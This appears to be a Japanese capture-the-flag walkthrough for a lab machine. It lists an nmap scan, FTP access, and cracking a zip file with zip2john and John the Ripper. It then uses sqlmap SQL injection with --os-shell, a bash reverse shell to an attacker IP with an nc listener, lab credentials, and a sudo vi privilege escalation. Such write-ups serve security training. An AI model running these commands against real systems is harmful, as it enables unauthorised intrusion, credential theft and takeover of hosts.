

# 1.Port Scan
ip=10.129.160.207
nmap -sC -sV $ip

# 2.FTP Login
nmapから得た情報を使いFTPサーバにログインする。
backup.zipを確認。

ftp $ip

# 3. Zip2john

backup.zupのhase値を出力

`zip2john backup.zip > hashes`

John the Ripperを使いパスワードを解析

`cat hashes`

`john --wordlist=/usr/share/wordlists/rockyou.txt hashes`

中身を確認
ユーザネームとパスワードを発見

cat index.php

使用できるハッシュ形式を確認。

`hashid 2cb42f8734ea607eefed3b70af13bbd3`  

Web site上のadminユーザのパスワードを確認

# 4.Web site login

Web siteにログイン

cookie editorを使いcookieを確認

# 5. Sql map

sqlmap を使い対象websiteへのSQLインジェクションの脆弱性を確認。

`sqlmap -u 'http://$ip/dashboard.php?search=any+query' --
cookie="PHPSESSID=7u6p9qbhb44c5c1rsefp4ro8u1"`

sql mapを使い --os-shell で接続

`sqlmap --os-shell -u 'http://$ip/dashboard.php?search=any+query' --cookie="PHPSESSID=js7su4b1p3lq9u0q2qqvtmj4ej"`      

os-shellからバッシュを使いローカルPCへ接続する

`bash -c "bash -i >& /dev/tcp/10.10.16.18/443 0>&1"`

`sudo nc -lvnp 443`

directory一覧を確認

ls

dashboard.php からuser名とpasswordを取得

cat dashboard.php

user:postgres

password:P@s5w0rd!

# 6.SSH

SSHで接続

root権限で実行できるコマンドを確認

sudo -l

コマンド実行

参考URL:https://gtfobins.github.io/gtfobins/vi/#sudo

vimはsudoで事項した場合管理者権限で実行できる。

sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf

shellを実行

vi
:set shell=/bin/sh
:shell

# 7.flag get

